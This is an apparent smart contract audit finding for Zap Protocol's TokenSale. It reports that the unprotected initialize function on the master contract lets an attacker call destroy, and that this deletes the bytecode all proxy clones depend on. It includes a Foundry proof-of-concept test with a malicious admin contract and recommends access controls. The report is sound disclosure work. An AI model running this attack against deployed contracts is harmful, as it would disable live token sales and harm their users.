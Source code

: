 Handsome Sage Deer

high

# All TokenSale clones can be destroyed

## Summary
Due to how the master contract for [`TokenSale`](https://github.com/sherlock-audit/2024-03-zap-protocol/blob/main/zap-contracts-labs/contracts/TokenSale.sol) is instantiated, an attacker can delete the bytecode.

## Vulnerability Detail
Relevant parts in `TokenSale`: [initialize](https://github.com/sherlock-audit/2024-03-zap-protocol/blob/main/zap-contracts-labs/contracts/TokenSale.sol#L71-L93), [destroy](https://github.com/sherlock-audit/2024-03-zap-protocol/blob/main/zap-contracts-labs/contracts/TokenSale.sol#L186-L193)

Zap Labs relies on minimal proxy pattern to deploy cheaply `TokenSale` contracts. Because of this, the `TokenSale` contract does not have a constructor and instead relies on `initialize` method. Because of missing access controls, a bad actor can call `initialize` on the master contract and then invoke `destroy`. This will remove the bytecode that all clones forward to, rendering them unusable.

One of the enabling factors of this attack is the fact that Blast L2 is running on Cancun's EVM version. This means that `selfdestruct` op code removes the bytecode of a contract once called.

## Impact
All TokenSale clones can have their bytecode deleted.

## Code Snippet

To verify that Blast L2 removes bytecode on `selfdestruct`, you can [deploy this contract on Blast-Sepolia](https://gist.github.com/georgiIvanov/a82d6b4246526e44c52a332377cfe8ce).
Or check out this already [destructed one](https://testnet.blastscan.io/address/0xE9e0fb3d685F60897610b421B51D3321F95f6f69).

**PoC of attack**

1. Add Foundry following [these instructions](https://book.getfoundry.sh/config/hardhat#adding-foundry-to-a-hardhat-project).
2. Add remappings.txt in the root folder 
```bash
@openzeppelin/=node_modules/@openzeppelin/
ds-test/=lib/forge-std/lib/ds-test/src/
forge-std/=lib/forge-std/src/
@src/=contracts/
@test/=test/
```

3. Create file `test/MockERC20.sol` with the following content:
```sol
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.11;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract MockERC20 is ERC20 {
  
  uint8 internal _decimals;

  constructor(
        string memory name_,
        string memory symbol_,
        uint8 decimals_
    ) ERC20(name_, symbol_) {
      _decimals = decimals_;
    }
    
  function mint(address to, uint256 amount) public {
    _mint(to, amount);
  }

  function decimals() public view override returns (uint8) {
    return _decimals;
  }
}
```
4. Create file `test/TokenSaleDestroyTest.t.sol`
```sol
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.11;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import {Test, console2} from "forge-std/Test.sol";

import "@src/Admin.sol";
import "@src/TokenSale.sol";
import "@src/interfaces/ITokenSale.sol";
import "@test/MockERC20.sol";

contract MaliciousAdmin {
  address owner;
  constructor() {
    owner = msg.sender;
  }

  function hasRole(bytes32 role, address account) external view returns (bool) {
    return account == owner;
  }

  function wallet() external view returns (address) {
    return owner;
  }
}

contract TokenSaleDestroyTest is Test {
  address deployer = makeAddr("deployer");
  Admin admin;

  function testDestroy() public {
    vm.startPrank(deployer);
    admin = new Admin();
    admin.initialize(deployer);

    TokenSale masterContract = new TokenSale();

    address attacker = makeAddr("attacker");
    vm.startPrank(attacker);
    MaliciousAdmin maliciousAdmin = new MaliciousAdmin();
    ITokenSale.Params memory params = ITokenSale.Params(1000, 0, 5, 0);
    MockERC20 usdc = new MockERC20("USDC", "USDC", 6);
    vm.etch(address(0xA9F81589Cc48Ff000166Bf03B3804A0d8Cec8114), address(usdc).code);
    masterContract.initialize(params, attacker, address(maliciousAdmin), type(uint256).max, 0, false, 0);
    masterContract.destroy();
  }
}
```
> Forge's EVM runtime doesn't delete the bytecode of self-destructed contracts.

## Tool used

Manual Review

## Recommendation
Add access controls, so that `TokenSale->initialize` can be called only by the `Admin` contract.
